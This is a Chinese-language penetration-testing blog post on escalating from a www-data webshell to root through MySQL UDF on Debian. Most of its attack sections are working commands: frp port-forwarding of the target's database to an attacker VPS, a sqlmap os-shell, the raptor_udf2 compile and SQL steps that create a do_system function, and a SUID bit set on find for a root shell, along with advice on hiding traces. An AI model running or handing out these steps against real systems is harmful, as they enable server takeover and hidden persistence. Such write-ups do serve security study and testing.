 ```yaml
---
layout: post
title: 利用MySQL UDF提权过程中的一些技巧
description: ""
keywords: ""
---
```


# 环境概述

最近碰到了一个可以利用MySQL UDF提权的Linux环境，目前已拿到目标www-data权限的webshell，最终目的是获取服务器root权限，这里UDF提权原理不做介绍。

具体环境：Debian GNU/Linux 8.11 + Apache/2.4.10 + PHP 5.6.36 + MySQL 5.5.60

端口开放情况：0.0.0.0:80、127.0.0.1:3306

MySQL服务使用root权限打开，相应配置目录：`root ... /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=root --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306`

通过网站配置文件源码，获取到MySQL root密码：xxxxxx

# 闲话

由于目标MySQL服务仅对本地开放，拿到webshell后，利用UDF提权的常规手法有：

1、上传大马webshell，利用大马中的UDF提权功能完成提权。

2、反弹shell，进而获取交互式tty shell，在shell中连接本地数据库，从而完成UDF提权。【具体操作见附录】

3、利用FuckMySQL，本地执行命令。[FuckMySQL](https://github.com/v5est0r/Python_FuckMySQL)项目针对Windows平台。

4、利用SQLMAP中的-d参数连接远程数据库，自动上传so库完成UDF提权，从而获取os-shell。【具体操作见技巧一】

5、使用Navicat等数据库管理工具连接远程数据库，从而完成UDF提权。

以上方法主要思想都是想方设法登陆数据库服务来执行SQL语句，进而获取到启动MySQL服务的root权限，以此来提权。

高版本MySQL Version>5.7，将会面临有以下情况：① secure-file-priv默认不为空，即不允许在任意文件夹中导出文件；② 默认root用户使用的authentication-plugins为auth_socket，即在本地登录MySQL时使用unix套接字登录，而非密码；③ mysql.user下password列更改为authentication_string列。此类情况另作讨论，可参考：[https://osandamalith.com/2018/02/11/mysql-udf-exploitation](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/)。

# 技巧一：使用frp端口映射

由于MySQL在传输层走的是TCP协议，因此可以利用frp、nps这类工具进行端口映射，将目标的3306端口映射出来。

![MySQLudf1](/assets/images/2019-10-15/MySQLudf1.png)

这里将目标的3306端口映射到VPS的33066端口上，类型为tcp，启动frpc：`nohup ./frpc -c frpc.ini &`

查看frp web发现上线，使用Navicat成功连接到VPS的33066端口服务。

![MySQLudf2](/assets/images/2019-10-15/MySQLudf2.png)

这样就可以使用SQLMAP的-d命令来连接服务并执行UDF提权语句；

```
sqlmap -d mysql://root:xxxxxx@VPS:33066/mysql --os-shell
```

![MySQLudf3](/assets/images/2019-10-15/MySQLudf3.png)

可以看到已经获取到系统root权限。

# 技巧二：利用s权限提权

使用UDF提权后可以以root权限执行命令，但命令需要挂在SQL语句中来执行，不方便且会留下明显痕迹，我们可以利用其root权限来给系统常用命令赋予s权限，以便隐藏执行。

Linux环境下的文件权限问题很有意思：

- s权限：文件属主和组设置SUID和GUID，文件在被设置了s权限后将以root身份执行。在设置s权限时文件属主、属组必须先设置相应的x权限，否则s权限并不能正真生效（chmod命令不进行必要的完整性检查，即使不设置x权限就设置s权限，chmod也不会报错，当我们ls -l时看到rwS，大写S说明s权限未生效）。Linux修改密码的passwd便是个设置了SUID的程序，普通用户无读写/etc/shadow文件的权限确可以修改自己的密码。通过chmod +s filename来设置s权限。
- t权限：粘着位权限。一个文件可读写的用户并不一定想让他拥有删除此文件的权限，如果文件设置了t权限则只有文件属主和root用户有删除文件的权限，通过chmod +t filename 来设置t权限。
- i权限：不可修改权限。例：chattr u+i filename 则filename文件就不可修改（包括删除文件），无论任何人，如果需要修改需要先删除i权限，用chattr -i filename就可以了。查看文件是否设置了i权限用lsattr filename。
- a权限：只可追加权限。对于日志系统很好用，这个权限让目标文件只能追加，不能删除，而且不能通过编辑器追加。可以使用chattr +a filename设置追加权限。

Linux提权除了利用溢出漏洞，还应重点查看拥有s权限的可执行程序，如果这个程序有办法调出shell，即在程序内部可执行系统命令，则shell可以继承程序的s权限，获取到SUIG及GUID，以此提权到root。

有师傅总结了内部可执行shell的命令程序列表：[GTFOBins]([https://gtfobins.github.io](https://gtfobins.github.io/))

随便找一个，find命令拥有Shell、SUID、Sudo三个方法，可以利用此命令来提权。

![MySQLudf4](/assets/images/2019-10-15/MySQLudf4.png)

仍利用SQLMAP举例，在cmd-shell中查看time位置，并赋予其s权限：

```
os-shell> which find
do you want to retrieve the command standard output? [Y/n/a] command standard output: '/usr/bin/find'
os-shell> chmod +s /usr/bin/find
do you want to retrieve the command standard output? [Y/n/a] command standard output: 'NULL'
os-shell> ls -la /usr/bin/find
[13:35:16] [INFO] resumed: [['-rwsr-sr-x 1 root root 233984 Nov  9  2014 /usr/bin/find']]...
command standard output: '-rwsr-sr-x 1 root root 233984 Nov  9  2014 /usr/bin/find'
```

在webshell下，执行`find . -exec /bin/sh \; -quit`

![MySQLudf5](/assets/images/2019-10-15/MySQLudf5.png)

可以看到成功拿到root权限，euid指effective uid，即有效id，Linux内核主要是根据euid和egid来确定进程对资源的访问权限，普通进程无SUID或SGID位，则euid=uid、egid=gid。

# 附录

Linux下使用终端连接MySQL服务来利用UDF提权：[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

上传so文件，这里可以使用exploit-db这个raptor_udf2.c在kali下编译，也可以从sqlmap源文件中直接拿来使用。使用wget或curl下载至服务器/tmp目录。

```
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

在交互式shell中登陆MySQL，执行相应的SQL语句完成提权：

```
mysql -uroot -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
具体地址通过ps aux查看mysql进程--plugin-dir参数
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
```

## 补充

- 在非交互式shell下，不能远程连接MySQL，同时禁止外部访问，这时候要么反弹shell后连接，要么使用mysql的-e参数：`mysql -h ip -uroot -pxxxx -e 'select user();'`
